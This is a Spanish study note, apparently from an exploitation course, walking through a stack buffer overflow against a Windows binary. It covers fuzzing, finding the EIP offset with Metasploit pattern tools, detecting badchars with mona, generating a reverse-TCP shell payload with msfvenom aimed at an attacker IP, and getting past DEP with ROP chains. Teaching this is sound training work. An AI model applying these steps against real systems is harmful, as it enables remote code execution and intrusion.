 tags: #temario #master #tecnica #explotacion 

---
Pasos para realizar un ataque de buffer overflow a un binario:

- Cargamos el programa a immunity debuger
- Creamos con python un fuzzer como **proof of content** (POC)
- Usar pattern create para averiguar el offset exacto donde desborda el programa
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <lengt desbordado>
 ```
- Introducimos la cadena que nos retorna como buffer a enviar en nuestro script python
- En inmunity debguger copiamos la dirección del EIP al desbordar con este nuevo buffer y eso lo pegamos en el siguiente comando para que nos retorne el offset de desbordamiento
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <direccion del EIP>
```
- Ahora que tenemos el offset exacto de donde desborda el programa y empieza a escribir en el EIP podemos modificar el buffer para poner una dirección de salto
```python
buffer = "A" * offset + "B" * 4
```
Esto debería de retornar 42424242 en el EIP si se hizo de manera correcta
- Deberemos detectar ahora los badchars como \x00, para eso desde el immunity debuger crearemos una carpeta con mona en el directorio que especifiquemos
```
!mona config -set workingfolder C:/Users/Admin/Desktop/%p
!mona bytearray
```
Pegamos el resultado de bytearray a continuacion del buffer que generamos para sobreescribir el EIP y con eso veremos que caracteres nos retorna como badchars. En este punto deberemos de enviar el buffer varias veces hasta detectar todos los badchars y nuestra cadena salga completa.
(ESP follow in dump) y ahi comprobamos hasta que salga la cadena correcta
- Generamos el payload con msfvenom
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<ip-atacante> LPORT=<puerto-atacante> EXITFUNC=thread -b "\x00" -f c
```
Este shellcode lo ponemos a continuación de EIP
- Ahora toca encontrar un punto de salto valido del ESP y lo haremos usando mona con el siguiente comando e introduciendo los badchars encontrados 
```
!mona jmp -r esp -cpb "\x00"
```
este comando nos retornara la dirección que deberemos de poner en el EIP para que la siguiente instrucción no lleve a un jum ESP y podamos ejecutar nuestro payload.


EVASION DEP

Si encontramos protección por parte del sistema DEP podemos saltarnos la protección con cadenas ROP. Para ello deberemos de ejecutar el siguiente comando mona
```immunity debuger
!mona rop -m * -cpb '\x00'
```

Del código que nos retorna este comando en la carpeta que previamente definimos en los pasos anteriores deberemos de copiar el que corresponda con el lenguaje de programación que estamos usando, en este caso python. Copiamos el codigo en nuestro exploit sustituyendo el codigi que va en el EIP e importar la sibreria struct

al terminar añadiremos al final del payload un paddin talque 
```
padding = "F" * (3000 - offset - len(variableNops) - len(payload))
```